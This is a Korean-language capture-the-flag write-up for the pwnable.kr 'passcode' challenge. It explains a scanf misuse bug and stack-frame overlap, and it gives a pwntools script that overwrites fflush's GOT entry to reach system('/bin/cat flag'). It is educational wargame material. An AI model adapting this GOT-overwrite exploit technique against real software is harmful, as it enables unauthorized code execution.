 # [pwnable.kr] passcode

> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?
>
> ssh passcode@pwnable.kr -p2222 (pw:guest)

## Bug

```c
/* passcode.c */

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}
```

`passcode1`과 `passcode2`에 `scanf()`로 입력을 받을 때 두 번째 인자로 변수의 주소를 전달해야 하는데 실제로는 변수의 값(쓰레기값)을 전달하여 의도하지 않은 주소에 값을 입력받게 된다.

## Exploit

```c
/* passcode.c */

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

`main()`에서 `welcome()`과 `login()`을 연속해서 호출하기 때문에 `welcome()`이 사용하던 스택 프레임을 `login()`에서 그대로 사용하게 된다.

```c
/* passcode.c */

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

`passcode1`의 주소를 확인해 보면 `name`의 마지막 4바이트와 겹친다. 따라서 `welcome()`에서 미리 `passcode1`의 값을 임의의 주소로 설정해 두고 `login()`에서 그 주소에 임의의 값을 입력할 수 있다.

`login()`에서 `passcode1`에 입력을 받은 직후에 `fflush()`를 호출하기 때문에, `fflush()`의 GOT 주소에 `system("/bin/cat flag")`의 주소를 넣으면 플래그를 획득할 수 있다.

```python
# ex.py

from pwn import *

p = ssh("passcode", "pwnable.kr", 2222, "guest").process("/home/passcode/passcode")

fflush_got = 0x804A004  # GOT of fflush()
flag_gadget = 0x80485E3  # system("/bin/cat flag")

p.sendlineafter(b"enter you name : ", b"A" * 0x60 + p32(fflush_got))
p.sendlineafter(b"enter passcode1 : ", str(flag_gadget).encode())

p.interactive()
```

![image](https://github.com/user-attachments/assets/1a23e377-cfee-426e-b95e-410154004e12)